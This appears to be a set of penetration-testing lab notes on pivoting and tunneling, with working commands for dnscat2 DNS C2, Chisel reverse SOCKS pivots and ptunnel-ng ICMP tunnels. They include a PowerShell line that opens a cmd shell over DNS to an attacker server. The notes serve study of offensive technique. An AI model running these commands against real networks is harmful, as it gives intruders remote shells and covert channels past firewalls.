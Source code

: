 ## DNS Tunneling with Dnscat2

Dnscat2 is a tunneling tool that uses DNS protocol to send data between two hosts. It uses an encrypted Command-&-Control (C&C or C2) channel and sends data inside TXT records within the DNS protocol. 

### Using dnscat2

```bash
## Installing dnscat2
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo bundle install

## Starting dnscat2 server
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. 

```powershell
## Installing dnscat2-powershell
git clone https://github.com/lukebaggett/dnscat2-powershell.git

## Importing dnscat2.ps1
Import-Module .\dnscat2.ps1

Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

## SOCKS5 Tunneling with Chisel

Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data that is secured using SSH. Chisel can create a client-server tunnel connection in a firewall restricted environment. 

### Using Chisel

Remember to edit proxychains.conf to include i.e. `socks5 127.0.0.1 1080`

```bash
## Installing Chisel
git clone https://github.com/jpillora/chisel.git
cd chisel
go build

## Transferring Chisel to Pivot Host
scp chisel ubuntu@10.129.202.64:~/

## Run Chisel Server on Pivot Host
./chisel server -v -p 1234 --socks5

## Connect to Chisel Server
./chisel client -v 10.129.202.64:1234 socks
```

### Chisel Reverse Pivot

There may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

```bash
## Run Chisel Server on Attack Host
sudo ./chisel server --reverse -v -p 1234 --socks5

## Connecting Chisel Client to Attack Host
./chisel client -v 10.10.14.17:1234 R:socks
```

## ICMP Tunneling with SOCKS

ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses. ICMP tunneling would only work when ping responses are permitted within a firewalled network. 

## Using ptunnel-ng

```bash
## Installing ptunnel-ng
git clone https://github.com/utoni/ptunnel-ng.git
sudo ./autogen.sh 

## Transfer Ptunnel-ng to Pivot Host
scp -r ptunnel-ng ubuntu@10.129.202.64:~/

# Start ptunnel-ng server on Target Host
# -r should be the IP we want ptunnel-ng to accept connections on
sudo ./ptunnel-ng -r10.129.202.64 -R22  

## Connect to ptunnel-ng server from Attack Host
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

## Tunnel SSH connection through ICMP tunnel
ssh -p2222 -lubuntu 127.0.0.1

## Enable dynamic port forwarding over ssh
ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```